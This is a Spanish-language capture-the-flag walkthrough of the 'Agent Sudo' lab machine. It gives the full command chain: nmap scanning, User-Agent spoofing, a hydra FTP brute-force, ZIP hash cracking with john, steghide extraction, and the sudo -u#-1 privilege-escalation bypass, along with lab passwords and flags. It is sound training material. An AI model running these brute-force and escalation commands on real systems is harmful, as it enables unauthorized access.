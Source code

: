 # Agent Sudo

## Enumeración

Realizamos un escaneo de puertos con `nmap` sobre la víctima para identificar puertos y servicios disponibles:

```bash
sudo nmap -sV -T4 -p- 10.10.130.68
```

Los puertos 21 de FTP, 22 de SSH y 80 de HTTP están abiertos.

![](images/image.png)

Accedemos a la web:

![](images/image-1.png)

Nos dice que en la petición HTTP, en el `User-Agent`, usemos el nombre **R**. Ejecutamos:

```bash
curl http://10.10.130.68/ -H "User-Agent: R" -L
```

Obtenemos el siguiente resultado:

![](images/image-2.png)

Probamos con todas las letras hasta acertar:

![](images/image-3.png)

Nos indica que el usuario `chris` tiene una contraseña débil.

## Ataque de fuerza bruta

Usamos `hydra` sobre FTP con el usuario `chris`:

```bash
hydra 10.10.130.68 -l chris -P /usr/share/wordlists/rockyou.txt ftp
```

La contraseña de `chris` es **crystal**.

![](images/image-4.png)

Accedemos por FTP:

![](images/image-5.png)

Listamos archivos: un `.txt` y dos imágenes.

![](images/image-6.png)

Descargamos con `get`:

![](images/image-7.png)

El `.txt` indica que las fotos son falsas, y que la contraseña está oculta en la imagen.

![](images/image-8.png)

Usamos `binwalk` para extraer el ZIP:

```bash
binwalk cutie.png --extract
```

![](images/image-9.png)

El ZIP está encriptado. Extraemos el hash para `john`:

```bash
zip2john 8702.zip > hash.txt
john hash.txt
```

![](images/image-10.png)
![](images/image-11.png)

John revela la contraseña **alien**.

![](images/image-12.png)

Extraemos el ZIP y obtenemos un código Base64:

![](images/image-13.png)

Decodificamos:

```bash
echo 'QXJlYTUx' | base64 -d
```

![](images/image-14.png)

Con `steghide` extraemos de `cute-alien.jpg`:

```bash
steghide --extract -sf cute-alien.jpg -p Area51
```

Obtenemos credenciales de `james`: **hackerrules!**

![](images/image-15.png)

## Escalada de privilegios

Nos conectamos por SSH como `james`:

```bash
ssh james@10.10.130.68
```

![](images/image-16.png)

Leemos la flag de usuario:

![](images/image-17.png)

```
b03d975e8c92a7c04146cfa7a5a313c7
```

Comprobamos sudo:

```bash
sudo -l
```

![](images/image-18.png)

Vemos que `/bin/bash` es ejecutable sin contraseña en versión vulnerable (<1.8.28). Exploit: [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

![](images/image-19.png)

Saltamos auth de sudo:

```bash
sudo -u#-1 /bin/bash
```

Obtenemos la flag root:

![](images/image-20.png)

```
b53a02f55b57d4439e3341834d70c062
```
